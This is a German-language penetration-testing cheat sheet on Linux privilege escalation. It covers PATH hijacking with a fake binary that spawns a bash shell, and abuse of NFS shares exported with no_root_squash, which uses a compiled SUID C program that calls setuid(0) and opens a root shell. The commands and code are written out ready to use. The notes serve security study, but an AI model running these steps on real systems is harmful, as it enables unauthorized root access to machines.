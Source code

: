 Um die Datei zu laden wird die Appl. in PATH suchen.

```
echo $PATH   # Pfad ausgeben
find / -writable 2>/dev/null  # Ordner mit Schreibzugriff finden
```

* Welche Verzeichnisse befinden sich unter $PATH?&#x20;
* Verfügt der aktuelle Benutzer über Schreibrechte für einen dieser Ordner?
* Kann $PATH geändert werden?
* Gibt es ein Skript/eine Anwendung, das/die gestartet werden kann und von dieser Sicherheitslücke betroffen ist?

&#x20;Durch gezieltes Setzen eines weiteren Pfads an die PATH-Spitze wird dort zuerst gesucht.

```
export PATH=/tmp:$PATH    # Beschreibbaren Ordner zu Path hinzufügen

cd /<neuer_pfad>
echo "/bin/bash" > <binary_name>
chmod 777 <binary_name>

./<c-applikation von oben bspw.>
```

## NFS ( Network File Sharing )

Konfigurationspfad: `/etc/exports`

Hier liegt die Suche auf einer falsch konfigurierten Netzwerk-Shell. Kann in der Konfiguration die `"no_root_squash"` Option bei einem beschreibbaren Share gefunden werden, kann eine ausführbare Datei mit SUID-Bit erstellt und ausgeführt werden.

```
showmount -e <Ziel-IP>

mount -o rw <Ziel-IP>:/<pfad> /<lokaler_pfad>

int main(){   # Diese Appl. kann dafür verwendet werden
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0;
}
gcc datei.c -o datei -w    # kompilieren
chmod +s datei             # suid bit setzen
```
